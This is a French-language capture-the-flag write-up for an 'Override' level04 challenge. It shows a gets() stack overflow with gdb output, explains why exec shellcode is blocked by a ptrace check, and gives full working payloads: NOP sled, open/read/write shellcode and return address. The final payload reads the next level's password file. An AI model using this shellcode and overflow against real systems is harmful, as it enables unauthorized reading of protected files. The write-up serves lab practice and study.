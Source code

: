 # Override / Level04

## Lire le fichier level04

On se remet sur dogbolt pour celui la. Le code est dans source.c.


## Vulnerabilite



We have a segfault in the first child because the function gets is not protect.

```
run <<< $(python -c 'print "A" * 164')
Breakpoint 1, 0x08048787 in main ()
(gdb) x/100x $eax
0xb7f:	Cannot access memory at address 0xb7f
(gdb) info registers
eax            0xb7f	2943
```

0xb7f = 2943 (segfault)

Malheuresement si on utilise un shellcode basic exec /bin/sh on tombe sur 
no exec for you()

Cela est du parce que ptrace check si exec est utlise , si oui il renvoie 11 et du coup d apres la source.c l'exe est kill , donc on doit utiliser un autre shellcode:

ce shellcode permet de ouvrir de lire et de write le fichier
https://www.exploit-db.com/exploits/41635

$(python -c 'print "\x90" * 51 + "\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x31\xc0\x99\xb0\x05\xcd\x80\x89\xc7\xb2\xff\x89\xe1\x89\xfb\xb0\x03\xcd\x80\xb3\x01\xb0\x04\xcd\x80\xfe\xca\x80\xfa\x01\x74\x02\xeb\xe9" + "A" * 51 + "\x5c\xd6\xff\xff"* 1')

![Légende](img.png)

Cela marche sur gdb!


Il faut juste maintenant changer /etc/passwd en /home/users/level04/.pass


/etc/passwd => sswd//pa//etc => \x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63

/home//users//level04//.pass => pass4//.vel0//leserse//u/hom  => \x68\x70\x61\x73\x73\x68\x35\x2f\x2f\x2e\x68\x76\x65\x6c\x30\x68\x2f\x2f\x6c\x65\x68\x73\x65\x72\x73\x68\x65\x2f\x2f\x75\x68\x2f\x68\x6f\x6d

Petite description de ce qui se passe.
En asm, on utilise une instruction ici \x68 (push), puis on doit mettre 4 bytes par 4 bytes mais a l'envers. Donc cette partie du shellcode ci dessous peut se traduire par:
\x68\x70\x61\x73\x73 : push "pass"
\x68\x35\x2f\x2f\x2e : push "4//."
etc...

Hors gdb, en quelques try sur des adresses on tombe sur le flag.

![Légende](img1.png)

>(python -c 'print "\x90" * 51 + "\x31\xc9\x51\x68\x70\x61\x73\x73\x68\x35\x2f\x2f\x2e\x68\x76\x65\x6c\x30\x68\x2f\x2f\x6c\x65\x68\x73\x65\x72\x73\x68\x65\x2f\x2f\x75\x68\x2f\x68\x6f\x6d\x89\xe3\x31\xc0\x99\xb0\x05\xcd\x80\x89\xc7\xb2\xff\x89\xe1\x89\xfb\xb0\x03\xcd\x80\xb3\x01\xb0\x04\xcd\x80\xfe\xca\x80\xfa\x01\x74\x02\xeb\xe9" + "\x90" * 31 + "\x90\xd6\xff\xff"* 1') | ./level04